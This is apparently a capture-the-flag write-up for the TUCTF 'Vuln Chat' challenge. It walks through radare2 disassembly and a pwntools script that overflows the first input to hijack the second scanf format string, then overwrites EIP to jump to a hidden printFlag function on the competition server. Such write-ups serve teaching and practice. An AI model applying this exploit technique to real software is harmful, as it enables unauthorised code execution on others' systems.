

# Vuln Chat

```
One of our informants goes by the handle djinn. He found some information while working undercover inside an organized crime ring. Although we've had trouble retrieving this information from him. He left us this chat client to talk with him. Let's see if he trusts you...

nc vulnchat.tuctf.com 4141

vuln-chat - md5: 5d081990e899864c9dc85b1cf255af6e
```

We start by net-catting into the provided server. A prompt asks for a name and then echoes it back to us. Djinn joins the chat, our name is echoed again, and we are prompted for more text. The program then exits. Because the name is echoed back to us, I immediately start to look for a format string exploit.

```
----------- Welcome to vuln-chat -------------
Enter your username: %x%x%x%x
Welcome %x%x%x%x!
Connecting to 'djinn'
--- 'djinn' has joined your chat ---
djinn: I have the information. But how do I know I can trust you?
%x%x%x%x: hi there
djinn: Sorry. That's not good enough
```

It doesn't appear to be a simple format string bug so I open the provided binary in radare2. I notice that the format string for the second `scanf` call is stored on the stack (shown as `local_5h` in r2 below). I wonder if we can override this. Off to gdb to test.

```
│ 0x08048629 83c408         add esp, 8                        |
│ 0x0804862c 8d45d3         lea eax, [local_2dh]              |
│ 0x0804862f 50             push eax                          |
│ 0x08048630 8d45fb         lea eax, [local_5h]               |
│    ; const char * format                                    |
│ 0x08048633 50             push eax                          |
│ 0x08048634 e827feffff     call sym.imp.__isoc99_scanf ;[gd] |
```

Sure enough, if we enter 30 chars for the first prompt (the max chars it will read), we gain control of the second scanf format string.



Going through the functions defined in the binary, I noticed that there is a function called printFlag that never gets called. We probably just need to overwrite EIP to point here. The plan is to override the second scanf format string so that we can override EIP.

After a bit of trial and error, I discovered that 49 bytes of padding + address of printFlag is what we are looking for. The python code for this is provided below.

```python
from pwn import *

def exploit(p):
    username = "AAAABBBBCCCCDDDDEEEE%100s"
    padding = "A" * 49
    address = p32(0x0804856b)

    p.recvuntil("Enter your username:")
    p.sendline(username)
    p.recvuntil("%100s:")
    p.sendline(padding+address)
    log.info("FLAG: " + p.recvline_contains("TUCTF"))

if __name__ == "__main__":
    if len(sys.argv) > 1:
        child = remote("vulnchat.tuctf.com", 4141)
        exploit(child)
    else:
        child = process(["vuln-chat"])
        exploit(child)

```


